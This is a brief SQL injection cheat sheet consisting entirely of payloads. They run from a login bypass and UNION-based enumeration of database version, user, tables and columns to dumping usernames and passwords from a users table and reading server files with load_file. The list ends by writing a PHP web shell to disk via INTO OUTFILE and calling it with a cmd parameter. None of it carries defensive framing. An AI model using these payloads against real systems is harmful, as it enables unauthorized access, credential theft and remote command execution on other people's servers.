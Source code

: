 ### SQL Injection

```
' or 1=1 LIMIT 1;#
```
```
<Username>' or 1=1 LIMIT 1;#
```
```
id=1 order by 1
```
```
UNION all select 1,2,3
```
```
UNION all select 1,2, @@version
```
```
UNION all select 1,2, user()
```
```
UNION all select 1,2, table_name from information_schema.tables
```
```
UNION all select 1,2, column_name from information_schema.columns where table_name='users'
```
```
UNION all select 1, username, password from users
```
```
UNION all select 1,2, load_file('path/to/file')
```
```
UNION all select 1,2,"<?php echo '<pre>' .shell_exec($_GET['cmd']). '</pre>';?>" into OUTFILE'path/to/backdoor.php'
----
(ip/backdoor.php?cmd=ipconfig)
```



